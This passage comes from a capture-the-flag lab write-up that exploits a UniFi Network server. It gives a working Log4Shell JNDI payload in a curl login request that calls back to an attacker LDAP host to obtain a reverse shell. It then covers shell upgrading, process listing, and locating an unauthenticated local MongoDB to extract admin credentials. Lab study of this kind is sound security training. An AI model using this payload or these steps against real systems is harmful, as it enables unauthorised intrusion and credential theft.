 or if we want to use cURL:
```
$ curl -i -s -k -X POST -H $'Host: 10.129.170.62:8443' -H $'Content-Length: 104' --data-binary $'{\"username\":\"a\",\"password\":\"a\",\"remember\":\"${jndi:ldap://10.10.14.4:1389/o=tomcat}\",\"strict\":true}' $'https://10.129.170.62:8443/api/login'
```
Coming back to `netcat`, we got the shell (despite we get 400 status from HTTP response). We can get a semi-interactive shell by:
```
$ script /dev/null -c bash
```
Now we can get easily the flag of the user.

## Phase 3: Privilege Escalation Part 1
Now let's guess that several methods of privilege escalation that we know at OS level don't work. What can we do? Let's see if there is some running database. Maybe they don't contain information related to the root account but could have some information related to the administrators of the UniFi Network web application.

For checking it, let's see the running processes:
```
$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
unifi          1  0.0  0.0   1080     4 ?        Ss   Mar17   0:00 /sbin/docker-
unifi          7  0.0  0.1  18512  3136 ?        S    Mar17   0:00 bash /usr/loc
unifi         17  0.7 26.2 3680828 533424 ?      Sl   Mar17   1:51 java -Dunifi.
unifi         67  0.3  4.2 1100676 85736 ?       Sl   Mar17   0:44 bin/mongod --
unifi       6257  0.0  0.1  18380  3084 ?        S    01:26   0:00 bash -c {echo
unifi       6261  0.0  0.1  18512  3332 ?        S    01:26   0:00 bash -i
unifi       6264  0.0  0.1  18380  3104 ?        S    01:26   0:00 bash
unifi       6319  0.0  0.1  19312  2216 ?        S    01:28   0:00 script /dev/n
unifi       6320  0.0  0.0   4632   828 pts/0    Ss   01:28   0:00 sh -c bash
unifi       6321  0.0  0.1  18512  3488 pts/0    S    01:28   0:00 bash
unifi       6573  0.0  0.1  34408  2924 pts/0    R+   01:37   0:00 ps aux
```
We see that MongoDB is the running database!

<details><summary>Click here to show MongoDB definition</summary></details>

From the semi-interactive shell, the `ps aux` command does not show all the characters. For getting the entire line related to the MongoDB process type:
```
$ ps aux | grep mongo
unifi         67  0.9  4.1 1102716 85284 ?       Sl   01:42   0:02 bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logRotate reopen --logappend --logpath /usr/lib/unifi/logs/mongod.log --pidfilepath /usr/lib/unifi/run/mongod.pid --bind_ip 127.0.0.1
unifi        300  0.0  0.0  11468   996 pts/0    S+   01:47   0:00 grep mongo
```
Come to find out, as described by the article, the MongoDB instance storing all application information is listening on localhost on the port `27117` without authentication. That means that once you have shell access, you can read from and make modifications to the local MongoDB instance. 

Let's interact with the MongoDB service by making use of the `mongo` command line utility and attempting to extract the administrator password.
